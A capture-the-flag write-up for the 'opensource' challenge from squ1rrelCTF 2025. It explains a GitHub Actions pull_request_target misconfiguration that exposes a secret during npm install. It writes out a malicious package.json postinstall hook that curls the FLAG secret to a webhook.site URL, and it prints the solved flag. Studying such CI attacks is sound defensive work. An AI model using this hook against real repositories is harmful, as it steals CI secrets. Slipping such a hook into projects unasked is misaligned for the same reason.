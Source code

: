 ```yaml
---
title: "opensource"
date: 2025-04-06
layout: writeup
platform: squ1rrelCTF 2025
categories: [Cloud]
tags: [Github, Git]
difficulty: Medium
---
```


# opensource

## Challenge Description

We're given read access to a private repository on Github.

<img src="{{ '/assets/images/opensource/github.png' | relative_url }}" alt="opensource" class="img-fluid" />

It's a simple react application.

## Github workflow

I noticed that there is a `.github/workflows` directory in the repository.

```yaml
name: Test Build

on:
  pull_request_target:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout code
        uses: actions/checkout@v4
        with:
          ref: ${{github.event.pull_request.head.ref}}
          repository: ${{github.event.pull_request.head.repo.full_name}}
          token: ${{ secrets.PAT }}
      - name: Set up Node.js
        uses: actions/setup-node@v4
        with:
          node-version: "20"
      - name: Install dependencies
        run: npm install
        env:
          FLAG: ${{ secrets.FLAG }}
      - name: Run build
        run: npm run build
```

Which means that for every pull request to the repository, the workflow will run with the original repo configuration as base and the changed code.

## Solution

There is a `FLAG` environment variable that is set while installing the dependencies.
We can create a webhook, and we need to somehow get the `FLAG` variable to be sent to the webhook when the workflow is triggered.

My initial attempt was to modify the `package.json` and change the build script with that:

```json
{
  "scripts": {
    "build": "curl -X POST -d $FLAG https://webhook.site/webhook-url"
  }
}
```

But that just sent an empty string to the webhook.
The `FLAG` variable is set in the environment when the `npm install` command is run, but it is not available in the `build` script.

I found out that there is a `postinstall` script that runs after the dependencies are installed, so I modified the `package.json` to include a `postinstall` script that sends the `FLAG` variable to the webhook:

```json
{
  "scripts": {
    "postinstall": "curl -X POST -d $FLAG https://webhook.site/webhook-url"
  }
}
```

`squ1rrel{github_configuration_womp_womp}`
